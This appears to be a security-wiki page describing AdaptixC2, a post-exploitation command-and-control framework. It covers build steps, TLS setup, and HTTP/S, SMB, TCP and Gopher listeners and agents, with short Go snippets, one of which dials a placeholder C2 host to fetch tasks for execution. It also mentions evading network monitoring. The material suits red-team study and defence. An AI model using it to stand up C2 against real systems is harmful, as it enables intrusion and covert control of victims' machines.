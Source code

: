 # AdaptixC2

{{#include ../../banners/hacktricks-training.md}}

## What is AdaptixC2?

AdaptixC2 v0.6 is an extensible, cross-platform post-exploitation and adversarial emulation framework comprising:

- **AdaptixServer**: Multi-threaded server written in Go
- **AdaptixClient**: Qt C++ GUI client for operators
- **Extenders**: Plugin-based listeners and agents, loaded at runtime

All communications are fully encrypted over TLS 1.2/1.3, and the architecture supports flexible C2 channels on Linux, Windows, and macOS.

## Repository Layout

- `AdaptixServer/`
  - Core server in Go
  - `ssl_gen.sh`: Generates self-signed TLS certificates via `profile.json`
  - Static assets (`404page.html`) and REST endpoints
- `AdaptixClient/`
  - Qt C++ GUI source
  - Visualizes sessions, graphs, and provides remote shell
- `Extenders/`
  - Plugins for listeners and agents
  - Loaded at runtime from `dist/extenders/`
- `Makefile`
  - `clean`, `prepare`, `server`, `client`, `extenders`
  - Example build:
    ```bash
    go build -o dist/server -ldflags="-s -w" ./AdaptixServer
    setcap cap_net_bind_service=+ep dist/server
    mkdir -p dist/extenders && cp -R Extenders/* dist/extenders/
    ```
- `Dockerfile`
  - Multi-stage build (Go 1.23.7, Qt6, CMake, mingw-w64, OpenSSL)
  - Compiles server, client, extenders, exports `/app/dist` to scratch image
- `pre_install_linux_all.sh` & `pre_install_macos_client.sh`
  - Scripts to install Go, Qt6, CMake, mingw-w64, OpenSSL, Homebrew dependencies

## Key Features

- **Fully encrypted communications** over TLS 1.2/1.3
- **Plugin extensibility**: HTTP/S, SMB, TCP, mTLS Gopher listeners and agents
- **Post-exploitation modules**: task/job storage, file/process browsing, SOCKS4/5 proxying, local/reverse port forwarding, BOF injection
- **Agent controls**: health checks, configurable kill dates and working hours
- **Cross-platform agents** for Windows, Linux, and macOS
- **GUI session graphs** and remote terminal

## Current Extenders

- HTTP/S Beacon Listener
- SMB Beacon Listener
- TCP Beacon Listener
- Beacon Agent
- TCP/mTLS Gopher Listener
- Gopher Agent

## Installation & Build

### Prerequisites

- Go >= 1.24.4
- Qt6, CMake >= 3.31.5
- mingw-w64 (for Windows client)
- OpenSSL

### Build with Makefile

```bash
make prepare    # Install dependencies
make server     # Build AdaptixServer
make client     # Build AdaptixClient
make extenders  # Build all extenders
```

### Docker

```bash
docker build -t adaptixc2-builder .
# Extract built binaries
docker run --rm adaptixc2-builder tar -czf - -C /app/dist . > adaptixc2-dist.tar.gz
```

## Generating TLS Certificates

AdaptixC2 uses self-signed certificates defined in `profile.json`. To generate:

```bash
cd AdaptixServer
./ssl_gen.sh profile.json
```

## Extender Details

### HTTP/S Beacon Listener

Covert C2 channel over HTTPS using Go’s `net/http`. Exposes:

- `/checkin` (GET): Agent polls for tasks
- `/results` (POST): Agent submits outputs

TLS certificates are loaded from `profile.json`. Payloads are serialized as JSON or binary over standard web traffic.

Example:
```go
handler := http.NewServeMux()
handler.HandleFunc("/checkin", s.handleCheckin)
handler.HandleFunc("/results", s.handleResults)
server := &http.Server{Addr: ":443", Handler: handler, TLSConfig: tlsConfig}
log.Fatal(server.ListenAndServeTLS(certFile, keyFile))
```

### SMB Beacon Listener

Implements an SMB server via `github.com/hirochachacha/go-smb`. Agents mount or enumerate shares, write request files, and read response files. Tasks are encoded in file metadata or content to bypass network monitoring.

```go
srv := smb.NewServer(smb.Config{...})
srv.ListenAndServe()
```

### TCP Beacon Listener

Low-latency C2 over raw TCP. Listens on a configurable port, authenticates connections, and uses 4-byte length-prefix framing (`encoding/binary`).

```go
ln, _ := net.Listen("tcp", ":5555")
for {
  conn, _ := ln.Accept()
  go handleConnection(conn)
}
```

### TCP/mTLS Gopher Listener

Legacy Gopher protocol over mutual TLS. Configures a `tls.Listener` with `ClientAuth: tls.RequireAndVerifyClientCert`, decodes tasks embedded in Gopher selectors, and serves responses as Gopher menus.

```go
config := &tls.Config{
  ClientAuth: tls.RequireAndVerifyClientCert,
  Certificates: []tls.Certificate{serverCert},
}
ln, _ := tls.Listen("tcp", ":70", config)
```

### Beacon Agent

Modular payload (Go for Linux/macOS, C++ for Windows) that dynamically loads extender plugins (`plugin.Open()` or Qt plugin loader). Performs periodic beacons, unmarshals tasks, executes shell commands or BOF modules in memory (`syscall` injection), and marshals results.

### Gopher Agent

Constructs `gopher://` URIs with base64-encoded task identifiers, establishes `tls.Dial()` connections, sends selector lines to fetch tasks, and writes back results in subsequent requests, enabling stealthy bi-directional C2 over Gopher.

```go
conn, _ := tls.Dial("tcp", "c2.example.com:70", clientTLSConfig)
selector := fmt.Sprintf("/task/%s\r\n", base64.StdEncoding.EncodeToString(taskID))
fmt.Fprint(conn, selector)
// Read and execute task...
```

## References

- https://github.com/Adaptix-Framework/AdaptixC2
- AdaptixC2 v0.6 Release: https://github.com/Adaptix-Framework/AdaptixC2/releases/tag/v0.6

{{#include ../../banners/hacktricks-training.md}}
